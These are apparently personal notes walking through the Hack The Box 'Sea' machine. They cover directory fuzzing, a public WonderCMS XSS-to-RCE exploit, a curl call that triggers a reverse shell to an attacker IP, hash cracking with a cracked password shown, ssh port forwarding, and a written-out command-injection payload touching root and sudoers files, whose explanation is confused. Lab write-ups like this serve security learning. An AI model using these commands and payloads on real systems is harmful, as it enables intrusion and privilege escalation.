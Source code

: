 
2024-08-17 13:23

Source: #htb #CTF #privesc 
### Reconnaissance 

- `nmap` scan shows `22/tcp ssh` & `80/tcp http`
- the home page of the website isn't useful 
- on visiting the 2nd page we find a contact button that takes us to `contact.php`

`Contact.php` has a few input fields. The first thing that comes up in mind is XSS. 
trying out XSS payloads don't really do anything
### Enumeration

#### using Dirbuster

open the GUI version of Dirbuster and check the `use Blank Extension` box this will find sub-directories of sub-directories. we find `/themes/bike` gets `301` response. 
#### Alternate using [[ffuf]] 

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/FUZZ
```
and further find sub-directories of sub-directories of `/themes` (`/themes` was one of the outputs of the above command) we choose `/themes` hoping to find a `cms` 
```shell
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://sea.htb/themes/FUZZ
```
on running `ffuf` again we find a `/bike` directory that has a `301` response.

- we get a `403` error when trying to open this in the browser 
> - Try to put files after `/bike/` like `LICENSE`, `robots.txt`, `README.md` and fortunately `README.md` gave something interesting

- take the `GET` request made to `/themes/bike` that gave us `403` error 
- now in the burp repeater change the `GET` request to `/themes/bike/README.md` and hit
- in the response we see that we have instructions on how to use `WonderCMS`
- above in the dirbuster results we saw a `themes/bike/version` directory that gives us the version of the CMS on visiting the URL.
### Exploit

Cross Site Scripting vulnerability in Wonder CMS v.3.2.0 thru v.3.4.2 allows a remote attacker to execute arbitrary code via a crafted script uploaded to the `installModule` component.
- we can get the script for this from github 

- running the exploit and having a netcat listener open doesn't give us a shell 
- we somehow have to trigger the `rev.php` file to make target server’s connection with our machine so, lets run this command in another terminal while having the listener on

I saw this line mentioned multiple times in the code `(“GET”, urlWithoutLogBase+”/themes/revshell-main/rev.php”)` So I just put target URL and gave it a shot!
```shell
curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.57&lport=4444'
```

- we have `amay` and `geo` in the home directory 
- without further ado we run `Linpeas` on this 
- in the interesting files section we find a `/var/www/sea/data/database.js`
- on opening this file we find a password hash (possibly amay's ssh password)

[[Cryptography]] before running john through the password we need to reformat it by removing `\` in order to crack it successfully. use John The Ripper
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt filename.txt
```
### Privilege Escalation 

Run `Linpeas`... we don't really find anything
I then decided to check if there is anything on Amay’s local host. To do that there is a technique called [[Port Forwarding]]. It basically takes a user’s port and redirect it’s traffic to our port. run the following on your local machine 
```shell
ssh -L 4444:localhost:8080 amay@sea.htb
```
If you’re logged in, you’re good to go. If not, check what’s running on your localhost:4444 you can check that by this command:
```shell
sudo lsof -i :4444
```
If you see some other services, kill the PID and then try the [[ssh (22 port)]] command again.

go to `localhost:4444` in your local browser and login with username as amay and password as mychemicalromance(cracked hash password)

we see a system monitoring page that is under development and we also see a analyze button that analyses the log files 
keep [[burpsuite]] on for rest of the process

- on capturing the request of analysis of the access.log we don't see anything useful
- we try command [[injection]] in the field that specifies the path of the log file in the burp request and get an error that says `suspicious traffic patterns detected` 

below is the URL encoded payload
```shell
log_file=/root/root.txt%3bcp/dev/shm/sudoers>+/etc/suoderskanalyze_log&analyze_log=
```
What this command did is that it inadvertently redirected the content of this file as output, which was then captured and displayed. The exposure occurred due to unintended side effects of the command’s syntax and execution.

### References
https://app.hackthebox.com/competitive/6/overview

walkthrough - https://medium.com/@haroonharoon17/sea-hack-the-box-walk-through-77b1030ce0bc

CMS exploit - [GitHub - prodigiousMind/CVE-2023-41425: WonderCMS Authenticated RCE - CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425?source=post_page-----77b1030ce0bc--------------------------------)

